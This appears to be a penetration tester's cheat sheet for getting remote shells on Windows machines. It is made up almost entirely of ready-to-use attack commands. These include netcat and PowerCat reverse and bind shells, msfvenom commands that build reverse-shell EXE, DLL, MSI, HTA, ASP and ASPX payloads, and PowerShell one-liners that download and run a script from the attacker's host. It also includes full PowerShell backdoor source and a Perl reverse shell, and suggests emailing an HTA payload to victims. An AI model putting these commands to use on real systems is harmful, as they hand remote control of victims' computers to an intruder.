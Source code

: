 #### CMD nc command

![[rlwrap]]

```command prompt - windows
nc64.exe -nv $KALI 443 -e cmd.exe
```

```command prompt - windows
nc.exe -nv $KALI 80 -e C:\WINDOWS\System32\cmd.exe
```

#### PowerShell nc command
```powershell - windows
.\nc64.exe -nv $KALI 443 -e cmd.exe
```

### MSFVenom

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse86.exe
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse64.exe
```
	
#### Stageless Payloads
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse86.exe
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse64.exe
```

#### DLL
[[Python#SMB File Transfer]]

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o reverse86.dll
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o reverse64.dll
```

[[rlwrap]]

```command prompt - target
rundll32.exe \\$KALI\share\reverse.dll ,0
```

#### msi
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f msi -o reverse86.msi
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f msi -o reverse64.msi
```

#### bat
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 > shell86.bat
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 > shell64.bat
```

#### asp
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 -f asp > shell86.asp
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 -f asp > shell64.asp
```

#### aspx
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 -f aspx > shell86.aspx
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 -f aspx > shell64.aspx
```

#### .hta file:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o reverse.hta
```

Upload / email file, then wait!

#### .hta raw:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh
```

#### PowerShell 1 liner

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

save as Shelly.ps1
```powershell - windows
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```command prompt - windows
cmd /c powershell -c C:\Windows\system32\Temp\Shelly.ps1
```

#### Invoke-PowerShell.ps1

```bash - kali
sudo git clone https://github.com/samratashok/nishang
```

```bash - kali
locate Invoke-PowerShellTcp.ps1
```

```bash - kali
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

Add the following line to the very bottom:
```bash - kali
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 443
```

Transfer and execute on windows victim.

```powershell - windows
powershell iex (New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 443
```

#### PowerShell Reverse Shell
```powershell - windows
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### PowerShell Bind Shell
```powershell - windows
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

#### Powershell reverse TCP
```powershell - windows
Write-Host "########################################################################";
Write-Host "#                                                                      #";
Write-Host "#                        PowerShell Reverse TCP v3.6                   #";
Write-Host "#                                          by Ivan Sincek              #";
Write-Host "#                                                                      #";
Write-Host "# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
Write-Host "# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
Write-Host "#                                                                      #";
Write-Host "########################################################################";
$client = $stream = $buffer = $writer = $data = $result = $null;
try {
	# change the host address and/or port number as necessary
	$client = New-Object Net.Sockets.TcpClient("127.0.0.1", 9000);
	$stream = $client.GetStream();
	$buffer = New-Object Byte[] 1024;
	$encoding = New-Object Text.AsciiEncoding;
	$writer = New-Object IO.StreamWriter($stream);
	$writer.AutoFlush = $true;
	Write-Host "Backdoor is up and running...";
	Write-Host "";
	$bytes = 0;
	do {
		$writer.Write("PS>");
		do {
			$bytes = $stream.Read($buffer, 0, $buffer.Length);
			if ($bytes -gt 0) {
				$data = $data + $encoding.GetString($buffer, 0, $bytes);
			}
		} while ($stream.DataAvailable);
		if ($bytes -gt 0) {
			$data = $data.Trim();
			if ($data.Length -gt 0) {
				try {
					$result = Invoke-Expression -Command $data 2>&1 | Out-String;
				} catch {
					$result = $_.Exception | Out-String;
				}
				Clear-Variable -Name "data";
				$length = $result.Length;
				$count = 0;
				$bytes = $buffer.Length;
				while ($length -gt 0) {
					if ($length -lt $buffer.Length) {
						$bytes = $length;
					}
					$writer.Write($result.substring($count, $bytes));
					$count += $bytes;
					$length -= $bytes;
				}
				Clear-Variable -Name "result";
			}
		}
	} while ($bytes -gt 0);
	Write-Host "Backdoor will now exit...";
} catch {
	Write-Host $_.Exception.InnerException.Message;
} finally {
	if ($writer -ne $null) {
		$writer.Close(); $writer.Dispose();
		Clear-Variable -Name "writer";
	}
	if ($stream -ne $null) {
		$stream.Close(); $stream.Dispose();
		Clear-Variable -Name "stream";
	}
	if ($client -ne $null) {
		$client.Close(); $client.Dispose();
		Clear-Variable -Name "client";
	}
	if ($buffer -ne $null) {
		$buffer.Clear();
		Clear-Variable -Name "buffer";
	}
	if ($result -ne $null) {
		Clear-Variable -Name "result";
	}
	if ($data -ne $null) {
		Clear-Variable -Name "data";
	}
	[System.GC]::Collect();
}
```

Change the $client IP an port details.

![[Python#Server]]

![[4._File Transfers#Certutil]]

#### PowerCat
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\powercat.ps1
```

#### PowerCat Reverse Shell
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe
```

#### PowerCat Bind Shell
```powershellz - windows
powercat -l -p 443 -e cmd.exe
```

#### PowerCat Stand-Alone payloads
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe -g > reverseshell.ps1
```

```powershell - windows
./reverseshell.ps1
```

#### PowerCat Encoded Reverse Shell
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

```powershell - windows
type encodedreverseshell.ps1
```

```powershell - windows
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZ
```

#### Perl
```powershell - windows
use Socket;$i="$KALI";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("cmd");};
```
